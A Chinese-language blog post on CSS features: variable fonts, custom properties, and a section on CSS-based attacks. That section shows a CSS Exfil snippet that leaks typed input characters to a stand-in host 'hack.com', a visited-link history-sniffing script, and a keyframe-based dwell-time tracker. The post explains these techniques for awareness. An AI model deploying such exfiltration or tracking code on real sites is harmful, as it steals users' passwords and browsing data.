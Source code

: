 # 🎨 有关 CSS 的一些极有趣的东西

[TOC]

## 灵活字体

<!-- > The future is variable, though the future is in the variable -->

灵活字体（Variable fonts）是一种包含字体元信息如字宽、字重（甚至自定义形变）的字体的字体方案。主要通过使用 CSS `font-variation-settings` 属性配置变形轴，来达到使字体形变的效果，如：

```CSS
h2 {
  font-size: 64px;
  font-variation-settings: 'wght' 375;
}

```

一张图展示其迷人之处：

![Variable fonts](https://mgear-image.oss-cn-shanghai.aliyuncs.com/image/css-interesting/2019-11-21-02-03-38.gif)

这里有一个展示其强大排版能力的示例页面：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="result" data-user="jpamental" data-slug-hash="wvwgGLK" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Layout variations, part deux">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/jpamental/pen/wvwgGLK">
  Layout variations, part deux</a> by Jason Pamental (<a rel="nofollow" href="https://codepen.io/jpamental">@jpamental</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

啊，所以说要是不会设计还是做不出漂亮页面（狗子脸）

## CSS 攻击

也许大部分玩家都了解或熟悉 CSRF、XSS 之类的攻击方式及防御方式，不过你听说过这些使用 CSS 进行攻击的方法么？

### 输入检测

CSS Exfil 漏洞攻击意味着攻击者可以使用选择器确定你在页面输入的按键再通过 CSS 请求将其记录，如下代码：

```CSS
input[value^=a]{
    background-image: url(http://hack.com/a);
}
input[value^=b]{
    background-image: url(http://hack.com/b);
}
/* ... */
input[value^=z]{
    background-image: url(http://hack.com/9);
}
```

当你在输入框中输入字母的同时，浏览器将自动向攻击者指定的地址发送请求，你的字母输入顺序也就随之被记录下来了，结合 CSS 中其它特征，通过 CSS Exfil 攻击可以直接推断出一些输入简单的密码，凭借分析，也能推测出更加复杂的密码。

这里有一个测试网址可以用以重现与玩耍：[CSS Exfil 攻击测试](http://eaea.sirdarckcat.net/cssar/v2/)

### 历史记录检测

现在我们丢弃刚才提到的 CSS 选择器，转而使用 CSS 和浏览器打交道中所用到的其它东西，比如说：我们都知道在浏览器中点击过某个链接后，那个链接就会变色——对的，没错，问题就在这儿——通过向页面插入大量超链接，可以通过标签的颜色就能判断你有没有浏览过这些链接，从而绕过浏览器限制。代码类似以下：

```js
const link = document.createElement('a')
link.href = 'www.baidu.com'
document.body.appendChild(link)
const color = document.defaultView.getComputedStyle(link, null).getPropertyValue('color')

const isView = color === 'rgb(0, 0, 255)'
```

想看源代码及或寻找更深入的讨论，请点这儿：[i-know-where-youve-been](https://blog.jeremiahgrossman.com/2006/08/i-know-where-youve-been.html)

### 用户轨迹追踪

了解过 CSS Exfil 后，我们大概都能想到通过纯 CSS 代码来追踪用户鼠标点击、甚至是用户鼠标轨迹的方案，但是关于用户在页面的停留时长，你有没有思路呢？

以下是一种可能的解决方案：

```CSS
@keyframes time-count {
  0% {
    background-image: url('track.php?duration=1s');
  }
  1% {
    background-image: url('track.php?duration=2s');
  }
  /* ... */
  100% {
    background-image: url('track.php?duration=100s');
  }
}
#duration:hover::after {
  animation-name: time-count;
  animation-duration: 100s;
}
```

### 其它攻击手段

这里有一个不全的清单：

- [Side-channel Attack](https://github.com/evonide/misc)
- [Text Reader](https://bugs.chromium.org/p/chromium/issues/detail?id=543078)
- [Scrollbar Attack](https://github.com/cgvwzq/css-scrollbar-attack)

欢迎各位在评论区补充（在此先谢过大佬们）

## CSS 变量

CSS 变量（官方叫做 Custom Properties，即自定义属性）是一个意义于作用同样强大的东西，它给 CSS 带来了原生层面意义上的代码模块化。我们可以通过浏览器 API 与 JavaScript 进行交互，使得其功效进一步扩大，同时提高 CSS 的可读性及维护性。通过给 CSS 变量赋任意有意义的值，并交由 calc 函数计算，可以产生具有可读性的组合值。比如下面这个例子：

```css
.my-component {
  --theme-color: red;
  --card-width: 30px;
}
.my-component .title {
  color: var(--my-component-theme-color);
}
.my-component .card-container {
  width: calc(var(--my-component-card-width) * 3);
  border: solid 1px var(--my-component-theme-color);
}
```

我们给组件（my-component）定义了主题色及卡片宽度两个变量，这两个变量可以在作用范围内任意使用及被改造。这两个变量也意味着组件的样式向外部暴露了两个可供修改的入口。一般而言，我们可以使用这两种方法继续扩展代码，以达到修改变量的目的：

```html
<link rel="stylesheet" href="my-component.css" />
<style>
  .my-component {
    --theme-color: gray;
  }
</style>
```

```JavaScript
const $con = document.querySelector('.my-component')
$con.style.setProperty('--theme-color', 'gray')
```

这里有一个能展示 CSS 变量超能力的极具吸引力的例子：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="css,result" data-user="danwilson" data-slug-hash="BRdJVZ" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Single Div Accordion (Animated with CSS Variables)">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/danwilson/pen/BRdJVZ">
  Single Div Accordion (Animated with CSS Variables)</a> by Dan Wilson (<a rel="nofollow" href="https://codepen.io/danwilson">@danwilson</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

不知道你酸了没有，反正我是酸了。

## 阅读更多

希望本文能对你有所帮助，如果文中出现了不流畅或理解错误的地方也麻烦各位评论指出。<JJ><p>若有任何疑问，或想深入探讨，可以给我发邮件：dGFuZ25hZEBxcS5jb20=</p></JJ>

<JJ><p>所有的文章和源码都会汇总到我的[博客项目](https://github.com/Lionad-Morotar/blogs)，欢迎 Star & Follow，也请大家多来我的[线上博客逛逛](www.lionad.art)，排版超 Nice 哦~</p></JJ>
